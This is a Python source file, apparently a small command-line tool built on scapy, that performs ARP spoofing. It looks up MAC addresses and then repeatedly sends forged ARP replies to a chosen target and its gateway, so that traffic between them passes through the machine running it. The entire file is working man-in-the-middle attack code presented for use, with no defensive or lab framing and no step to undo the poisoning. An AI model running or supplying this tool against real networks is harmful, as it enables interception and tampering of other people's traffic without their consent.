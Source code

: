 #! /usr/bin/env python

import scapy.all as scapy
import time
import argparse

def get_mac(ip):
    """
    Sends an ARP request to a specified IP address to retrieve its MAC address.

    Parameters:
    ip (str): The IP address of the target device.

    Returns:
    str: The MAC address of the target if found, otherwise None.
    """
    # Create an ARP request for the specified IP address
    arp_request = scapy.ARP(pdst=ip)
    
    # Create an Ethernet frame with the broadcast MAC address
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    
    # Combine the Ethernet frame and ARP request
    arp_request_broadcast = broadcast / arp_request
    
    # Send the packet and capture the response
    answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]

    # If a response is received, return the MAC address
    if len(answered_list) > 0:
        return answered_list[0][1].hwsrc
    else:
        print(f"[!] No response for {ip}.")
        return None

def spoofy(target_ip, spoof_ip):
    """
    Spoofs the ARP table of the target device by sending a forged ARP response.

    Parameters:
    target_ip (str): The IP address of the target device.
    spoof_ip (str): The IP address that the target will think the packet is from.
    """
    # Get the MAC address of the target device
    target_mac = get_mac(target_ip)
    
    # If the MAC address is found, send the spoofed ARP packet
    if target_mac:
        packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
        scapy.send(packet, verbose=False)
    else:
        print(f"[!] Unable to spoof {target_ip}, MAC address not found.")

def main():
    """
    The main function that parses user input and continuously performs ARP spoofing.
    """
    # Set up argument parsing for target and gateway IPs
    parser = argparse.ArgumentParser(description="ARP Spoofer")
    parser.add_argument("-t", "--target", dest="target_ip", help="Target IP address", required=True)
    parser.add_argument("-g", "--gateway", dest="gateway_ip", help="Gateway IP (e.g., router)", required=True)
    args = parser.parse_args()

    sent_packet_count = 0

    # Infinite loop to send spoofed packets to both the target and gateway
    try:
        while True:
            # Spoof the target, pretending to be the gateway
            spoofy(args.target_ip, args.gateway_ip)
            
            # Spoof the gateway, pretending to be the target
            spoofy(args.gateway_ip, args.target_ip)
            
            sent_packet_count += 2
            print(f"[+] Packets sent: {sent_packet_count}")
            
            # Wait for 2 seconds before sending the next batch of packets
            time.sleep(2)
    except KeyboardInterrupt:
        print("\n[!] Stopped ARP spoofing. Exiting...")

if __name__ == "__main__":
    main()
